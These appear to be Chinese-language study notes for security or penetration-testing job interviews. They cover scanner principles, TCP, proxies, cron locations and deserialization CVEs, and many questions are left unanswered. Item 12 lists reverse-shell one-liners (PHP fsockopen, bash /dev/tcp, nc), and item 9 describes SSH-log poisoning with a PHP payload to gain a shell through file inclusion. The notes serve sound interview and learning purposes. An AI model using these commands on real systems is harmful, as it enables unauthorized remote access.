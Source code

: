 linux 30%
windows 10%
渗透	原理 绕过思路 40%
开放性命题 20%

1. web扫描器的原理	
	Web漏洞扫描通常采用两种策略，第一种是被动式策略，第二种是主动式策略。所谓被动式策略就是基于主机之上，对系统中不合适的设置、脆弱的口令以及其他与安全规则抵触的对象进行检查;而主动式策略是基于网络的，它通过执行一些脚本文件模拟对系统进行攻击的行为并记录系统的反应，从而发现其中的漏 洞。利用被动式策略的扫描称为系统安全扫描，利用主动式的策略扫描称为网络安全扫描。
	

扫描过程 会使用什么形式进行扫描？
	head
	

2.  GET/POST 之外的请求有哪些？
	PUT HEAD DELETE CONNECT TRACE OPTIONS
	
3.  同源策略
	所谓的同源，指的是协议，域名，端口相同。

4. windows计划任务 
	schtasks at
linux 计划任务位置
		/var/spool/cron/*
		/var/spool/anacron/*
		/etc/crontab
		/etc/anacrontab
		/etc/cron.*
		/etc/anacrontab

5. ==tcp udp 区别==
	TCP是面向连接的，而UDP是面向非连接的，即发送数据前不需要建立连接。
	TCP提供可靠服务，而UDP无法保证可靠的数据传输。
	TCP面向字节流UDP面向报文
	TCP传输数据慢。UDP传输数据快。
tcp 三次握手
		三次握手过程
		建立TCP连接时，需要客户端和服务器共发送3个包。
		第一次：客户端发送初始序号x和syn=1请求标志
		第二次：服务器发送请求标志syn，发送确认标志ACK，发送自己的序号seq=y，发送客户端的确认序号ack=x+1
		第三次：客户端发送ACK确认号，发送自己的序号seq=x+1，发送对方的确认号ack=y+1

6. 正向代理和反向代理
	正向代理 是一个位于客户端和原始服务器(origin server)之间的服务器，为了从原始服务器取得内容，客户端向代理发送一个请求并指定目标(原始服务器)，然后代理向原始服务器转交请求并将获得的内容返回给客户端。客户端必须要进行一些特别的设置才能使用正向代理。
	反向代理（Reverse Proxy）实际运行方式是指以代理服务器来接受internet上的连接请求，然后将请求转发给内部网络上的服务器，并将从服务器上得到的结果返回给internet上请求连接的客户端，此时代理服务器对外就表现为一个服务器。

7. http的基础认证爆破
	bp 账号：密码	base64

8. php命令执行函数有哪些？
	eval/assert/preg_replace/create_function
	system/passthru/exec/shell_exec/popen/proc_open/pcntl_exec/dl/`xx`

9. 已知有文件包含漏洞和22端口，如何利用最后拿shell
	ssh '<?php phpinfo(); ?>'@IP
	然后文件包含登陆日志
	ssh日志默认是在/var/log/auth.log下，默认其它用户是有read的权限的。
	
10. linux被入侵之后 你该怎么做应急？
	

https://xz.aliyun.com/t/1140
	
11. webshell检测思路

    

12. 常用的反弹shell命令

    ```php
    php -r '$sock=fsockopen("192.168.11.101",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

    ```bash
    bash -i >& /dev/tcp/192.168.20.151/8080 0>&1
    ```

    ```bash
    nc 192.168.31.151 7777 -t  /bin/bash
    ```

     ```python -c 'import pty; pty.spawn("/bin/sh");'```

13. SQL注入写webshell

    

14. DNS在渗透中的作用
    子域名劫持  
    C2

15. 如何防治XXE漏洞产生？

    

16. XXE利用？

    

17. tomcat的加固

    https://www.cnblogs.com/panwenbin-logs/p/8177523.html

18. 如何防范ddos攻击	memcache放大	DNS放大 ntp放大

    

19. 常见中间件反序列化漏洞举例

    - fastjson 1.2.24 反序列化导致任意命令执行漏洞
    - JBoss JMXInvokerServlet 反序列化漏洞
    - JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）
    - Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）
    - Weblogic < 10.3.6 'wls-wsat' XMLDecoder 反序列化漏洞（CVE-2017-10271）
    - Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

20. CSRF、SSRF和重放攻击原理和区别

    

21. 渗透测试的流程*
    前期交互 -> 情报收集 -> 威胁建模 -> 漏洞分析 -> 漏洞攻击 -> 后渗透 -> 报告

22. xss绕过问题

    

23. DNS C2 溯源思路
    ipconfig /displaydns

24. 未授权访问漏洞的利用形式 （详细）

25. 之前的渗透测试项目

26. 应急响应

27. 日志、流量协议分析

28. 安全产品

29. 溯源的思路

30. 漏洞基本原理和防御手段

31. 加固

32. windows域
    
